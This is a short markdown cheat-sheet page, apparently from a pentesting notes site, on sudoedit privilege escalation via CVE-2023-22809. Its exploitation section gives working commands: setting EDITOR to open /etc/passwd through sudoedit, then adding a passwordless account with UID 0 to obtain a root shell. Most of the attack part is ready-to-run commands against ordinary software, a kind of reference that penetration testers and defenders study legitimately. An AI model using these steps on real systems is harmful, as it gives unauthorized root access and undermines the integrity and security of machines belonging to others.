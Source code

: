 ```yaml
---
title: Sudoedit Privilege Escalation
description: Sudoedit is vulnerable to privilege escalation.
tags:
    - Privilege Escalation
refs:
    - https://www.synacktiv.com/sites/default/files/2023-01/sudo-CVE-2023-22809.pdf
date: 2023-03-11
draft: false
---
```


## Investigation

```bash
sudo -l

(root) sudoedit /opt/example.txt
```

If we can execute sudoedit command as root, we might be able to escalate the privileges with some version.

<br />

## Exploitation ([CVE-2023-22809](https://www.synacktiv.com/sites/default/files/2023-01/sudo-CVE-2023-22809.pdf))

In sudo version before 1.9.12p2, the sudoedit can modify arbitrary file with unrestricted privilege.

```bash
export EDITOR="vim -- /etc/passwd"
sudo sudoedit /opt/example.txt
```

In vim editor, add the following new line in **`/etc/passwd`**.

```bash
sudoedit::0:0:root:/root:/bin/bash
```

Now we can get a root shell.